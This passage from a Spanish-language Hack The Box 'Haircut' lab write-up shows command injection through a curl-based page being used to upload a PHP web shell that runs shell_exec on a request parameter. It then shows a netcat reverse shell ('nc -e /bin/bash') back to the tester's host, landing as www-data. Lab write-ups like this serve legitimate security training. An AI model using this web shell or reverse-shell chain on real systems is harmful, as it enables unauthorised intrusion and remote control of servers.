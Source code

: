 Nos arroja la información de nuestro archivo, por lo que vamos a probar si podemos guardar dicho archivo en el recurso `uploads`:

```bash
http://10.10.14.16/test.txt -o /var/www/html/uploads/test.txt
```

![](/assets/images/htb-haircut/haircut-curl2.png)

Podemos subir archivos al sistema, así que vamos a crear nuestro archivo `shell.php`

```bash
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Lo subimos al servidor:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.24 - - [18/Oct/2021 20:56:59] "GET /shell.php HTTP/1.1" 200 -
```

```bash
http://10.10.14.16/shell.php -o /var/www/html/uploads/shell.php
```

![](/assets/images/htb-haircut/haircut-shell.png)

Ya tenemos ejecución de comandos a nivel de sistema; asi que vamos a tratar de entablarnos una reverse shell con `nc` y nos ponemos en escucha por el puerto 443:

```bash
http://10.10.10.24/uploads/shell.php?cmd=nc -e /bin/bash 10.10.14.16 443 &
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.24] 49758
whoami
www-data
```
